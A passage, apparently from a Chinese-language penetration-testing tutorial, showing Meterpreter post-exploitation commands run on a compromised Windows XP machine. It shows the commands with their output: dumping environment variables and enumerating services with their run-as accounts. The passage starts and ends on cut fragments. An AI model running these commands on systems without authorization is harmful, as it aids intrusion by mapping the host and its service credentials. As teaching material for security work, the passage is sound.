 ```bash
 Hotfix for Windows XP (KB954550-v5)                                                     5
```

#### 获取环境变量

```
meterpreter > run get_env
[*] Getting all System and User Variables

Enviroment Variable list
========================

 Name                    Value
 ----                    -----
 APPDATA                 C:\Documents and Settings\Administrator\Application Data
 CLIENTNAME              Console
 ComSpec                 C:\WINDOWS\system32\cmd.exe
 HOMEDRIVE               C:
 HOMEPATH                \Documents and Settings\Administrator
 NUMBER_OF_PROCESSORS    1
 OS                      Windows_NT
 PATHEXT                 .COM;.EXE;.BAT;.CMD;.VBS;.VBE;.JS;.JSE;.WSF;.WSH
 PROCESSOR_ARCHITECTURE  x86
 PROCESSOR_IDENTIFIER    x86 Family 6 Model 142 Stepping 9, GenuineIntel
 TEMP                    C:\DOCUME~1\ADMINI~1\LOCALS~1\Temp
 windir                  C:\WINDOWS
```

#### 枚举服务

```
meterpreter > run post/windows/gather/enum_services

[*] Listing Service Info for matching services, please wait...
[+] New service credential detected: Alerter is running as 'NT AUTHORITY\LocalService'
[+] New service credential detected: AppMgmt is running as 'LocalSystem'
[+] New service credential detected: aspnet_state is running as 'NT AUTHORITY\NetworkService'
Services
========

 Name                                 Credentials                  Command   Startup
 ----                                 -----------                  -------   -------
 ALG                                  NT AUTHORITY\LocalService    Manual    C:\WINDOWS\System32\alg.exe
 Alerter                              NT AUTHORITY\LocalService    Disabled  C:\WINDOWS\system32\svchost.exe -k LocalService
 AppMgmt                              LocalSystem                  Manual    C:\WINDOWS\system32\svchost.exe -k netsvcs
 AudioSrv                             LocalSystem                  Auto      C:\WINDOWS\System32\svchost.exe -k netsvcs
 ```

#### 获取USB历史信息
